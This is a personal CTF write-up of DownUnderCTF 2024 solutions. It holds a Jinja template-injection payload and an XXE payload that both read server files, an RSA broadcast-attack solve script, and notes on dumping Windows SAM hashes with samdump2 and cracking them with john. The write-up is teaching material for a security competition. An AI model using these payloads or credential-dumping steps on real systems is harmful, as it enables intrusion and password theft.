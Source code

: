 ```yaml
---
title: 'down-under ctf 2024 challenges'
description: 'Solutions I did for down-under 2024'
pubDate: 'Jul 01 2024'
heroImage: 
  src: '/blog-placeholder-1.jpg'
  alt: ''
order: 1
tags: ["writeup"]
---
```


# Background Information

Competed as team Lazy Bums. Sort of lost interest a day in. 

## Web

#### Parrot The Emu
This code is vulnerable to user-supplied malicious payloads

```python
user_input = request.form.get('user_input')
        try:
            result = render_template_string(user_input)
```

{{7*7}} verifies that the code is vulnerable to template injection as it returns 49, which means that the server is processing the inputted template

Sending the payload: ```{{ self.__init__.__globals__.__builtins__.open('flag').read() }}``` will return the flag as it reads the flag file defined in the supplied source code files.

#### Zoo Feedback Form
Upon inspecting the code, we can see that XML is used in the post request sent to the web server

```python
if request.method == 'POST':
        xml_data = request.data
        try:
            parser = etree.XMLParser(resolve_entities=True)
            root = etree.fromstring(xml_data, parser=parser)
        except etree.XMLSyntaxError as e:
            return render_template_string('<div style="color:red;">Error parsing XML: {{ error }}</div>', error=str(e))
        feedback_element = root.find('feedback')
        if feedback_element is not None:
            feedback = feedback_element.text
            return render_template_string('<div style="color:green;">Feedback sent to the Emus: {{ feedback }}</div>', feedback=feedback)
        else:
            return render_template_string('<div style="color:red;">Invalid XML format: feedback element not found</div>')

    return render_template('index.html')
```

Load the web server onto burpsuite.

Inspect the post request, you can see that it sends an XML request. This must mean it can be vulnerable to XXE injection

You can see that an XML request is sent, so we can modify it using a basic XXE injection where we read ```flag.txt``` through an XML entity object

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY example SYSTEM "/app/flag.txt"> ]>
<root>
  <feedback>
    a&example;
  </feedback>
</root>
```

Upon sending, we get the flag. 

## Crypto
#### ShuffleBox
Let's look at the provide files.

```bash
aaaabbbbccccdddd -> ccaccdabdbdbbada
abcdabcdabcdabcd -> bcaadbdcdbcdacab
???????????????? -> owuwspdgrtejiiud
```

#### Sun Tzu's Perfect Math Class
Just use chatgpt to solve the riddle.

Solve script for part 2:

```python
from sympy import mod_inverse
from gmpy2 import iroot

# Given values
e = 3
c1 = int("105001824161664003599422656864176455171381720653815905925856548632486703162518989165039084097502312226864233302621924809266126953771761669365659646250634187967109683742983039295269237675751525196938138071285014551966913785883051544245059293702943821571213612968127810604163575545004589035344590577094378024637")
c2 = int("31631442837619174301627703920800905351561747632091670091370206898569727230073839052473051336225502632628636256671728802750596833679629890303700500900722642779064628589492559614751281751964622696427520120657753178654351971238020964729065716984136077048928869596095134253387969208375978930557763221971977878737")
c3 = int("64864977037231624991423831965394304787965838591735479931470076118956460041888044329021534008265748308238833071879576193558419510910272917201870797698253331425756509041685848066195410586013190421426307862029999566951239891512032198024716311786896333047799598891440799810584167402219122283692655717691362258659")
n1 = int("147896270072551360195753454363282299426062485174745759351211846489928910241753224819735285744845837638083944350358908785909584262132415921461693027899236186075383010852224067091477810924118719861660629389172820727449033189259975221664580227157731435894163917841980802021068840549853299166437257181072372761693")
n2 = int("95979365485314068430194308015982074476106529222534317931594712046922760584774363858267995698339417335986543347292707495833182921439398983540425004105990583813113065124836795470760324876649225576921655233346630422669551713602423987793822459296761403456611062240111812805323779302474406733327110287422659815403")
n3 = int("95649308318281674792416471616635514342255502211688462925255401503618542159533496090638947784818456347896833168508179425853277740290242297445486511810651365722908240687732315319340403048931123530435501371881740859335793804194315675972192649001074378934213623075830325229416830786633930007188095897620439987817")

# Applying Chinese Remainder Theorem
N = n1 * n2 * n3
n1_inv = mod_inverse(N // n1, n1)
n2_inv = mod_inverse(N // n2, n2)
n3_inv = mod_inverse(N // n3, n3)

C = (c1 * n1_inv * (N // n1) + c2 * n2_inv * (N // n2) + c3 * n3_inv * (N // n3)) % N

m, exact = iroot(C, 3)
if exact:
    print(f"The hidden message is: {m}")
else:
    print("Failed to recover the hidden message.")
```

## Forensics
#### Baby's First Foren

Looking throughout the HTTP object yields the strange phrase `nikto`. Upon further research, nikto is a web vulnerability scanner

Following the tcp stream and searching for `nikto` yeilds the version.

#### SAM I AM

Use a tool like `samdump2 system.bak sam.bak` and get the password hashes. Then crack the NT hashes using `john` and get the password
